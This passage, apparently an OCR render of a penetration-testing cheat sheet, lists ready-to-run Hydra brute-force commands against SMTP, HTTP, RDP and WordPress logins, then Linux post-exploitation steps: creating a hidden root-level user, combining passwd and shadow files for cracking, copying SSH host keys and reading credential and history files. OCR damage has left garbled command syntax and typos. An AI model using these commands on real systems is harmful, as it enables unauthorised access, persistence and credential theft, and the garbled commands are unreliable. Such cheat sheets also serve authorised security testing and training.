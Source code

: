 ▪ hydra -P /usr/share/wordlistsnmap.lst &gt; $ip smtp -V

```text
> $ Hydra attack http get 401 login with a dictionary
```

▪ hydra -L ./webapp.txt -P ./webapp.txt &gt; $ip http-get /admin

```text
> $ Hydra attack Windows Remote Desktop with rockyou
```

▪ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp:// &gt; $ip

```text
> $ Hydra brute force a Wordpress admin login
```

▪ hydra -l admin -P ./passwordlist.txt &gt; $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

## POST EXPLOITATION LINUX

Add user with root privs:

> $ sudo useradd -ou 0 -g 0 john  
> $ sudo passwd John@1234

Combie shadow and passwd files:

> $ unshadow passwd.txt shadow.txt &gt; passwords.txt

Find listening services:

> $ netstat -alp

Copy ssh private kets:

> $ /etc/ssh/ssh\_host\_dsa\_key  
> $ /etc/ssh/ssh\_host\_key

Check interseting files

> $ /var/log  
> $ /var/log/secure  
> $ /etc/passwd  
> $ /etc/shadow  
> $ ~/.bash\_history  
> $ ~/.mysql\_history  
> Check log files of some of the services:  
> $ http  
> $ ftp  
> $ ssh  
> ▪ grep 'sshd' /var/log/auth.log

linux Post Exploitation:

> $ ifconfig

## POST EXPLOITATION WINDOWS
